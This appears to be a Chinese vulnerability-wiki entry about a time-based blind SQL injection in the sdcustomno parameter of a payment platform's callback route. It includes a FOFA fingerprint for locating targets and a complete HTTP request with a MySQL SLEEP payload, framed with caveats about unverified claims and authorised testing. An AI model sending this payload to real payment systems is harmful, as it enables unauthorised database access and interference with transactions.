


# 聚合支付平台（厂商未知） pay_UPALIWAP_callbackurl sdcustomno时间盲注

## 条目说明

- 对象与具体问题：聚合支付平台（厂商未知）；pay_UPALIWAP_callbackurl sdcustomno时间盲注
- 版本、配置及部署条件：版本未知，MySQL sleep
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- sdcustomno是参数并非接口，标题应保留具体路由
- 5秒延迟无文本基线/对照；星号可能工具注入标记需解释
- 支付回调可能改交易状态须标注；通用CSS指纹不足确定产品
- 无代码围栏、补丁、在野依据，写木马属条件性推论

## 操作风险

延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

聚合支付平台接口sdcustomno接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

聚合支付平台

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA："/Public/theme/view4/css/style.css"

POC/EXP：

```http
GET /pay_UPALIWAP_callbackurl?sdcustomno=*%27)%20AND%20(SELECT%202655%20FROM%20(SELECT(SLEEP(5)))DNPm)%20AND%20(%27RWpf%27=%27RWpf HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
